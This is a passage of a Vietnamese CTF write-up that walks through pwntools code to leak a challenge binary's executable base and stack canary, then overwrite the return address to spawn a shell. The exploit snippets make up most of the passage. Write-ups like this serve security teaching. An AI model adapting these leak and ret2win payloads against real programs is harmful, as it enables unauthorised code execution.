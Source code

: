 - có được stack rồi ta cũng dễ dàng leak exe 

![image](https://github.com/gookoosss/CTF/assets/128712571/5e4eb632-a1e8-449b-bdb3-b01746a3a827)


```python 
leak_main = stack_leak-0x110
edit_title(3,p64(leak_main)[0:6]) #350
show(1)
p.recvuntil(b'Content: ')
exe_leak = u64(p.recv(6)+b'\0\0')
exe.address = exe_leak - exe.sym['main']
info("exe leak: " + hex(exe_leak))
info("exe base: " + hex(exe.address))
```

### Leak canary 

- tương tự như trên , sử dụng stack để leak canary

```python 
leak_canary = stack_leak-0x12f
edit_title(3,p64(leak_canary)[0:6]) #350
show(1)
p.recvuntil(b'Content: ')
canary = u64(b'\0' + p.recv(7))
info("canary: " + hex(canary))
```

### Get shell

- có đầy đủ những thứ ta cần rồi, giờ là lúc ta lấy shell
- như phân tích ở trên thì mọi dữ liệu ta nhập vào đều lưu trên stack trước sau đó mới đưa vào heap, vậy ta hoàn toàn có thể ret2win được 
- ta sẽ chọn hàm edit_title để ret2win, nhưng mà trước đó ta cần set lại size cho fake chunk thành 0xffff để có thể nhập thoải mái 
```python 
payload = b'a'*0x48 + p64(0xffff)
edit_title(1,payload)

payload = b'b'*0x408 + p64(canary) + b'a'*8 + p64(exe.sym['read_function'] + 5)

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'Index: ', str(3))
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'title: ', payload)
```

- cuối cùng thì ta cũng lấy được shell 

![image](https://github.com/gookoosss/CTF/assets/128712571/cc0e23c2-f46b-482b-81fe-c157a1eff8ce)


## script 
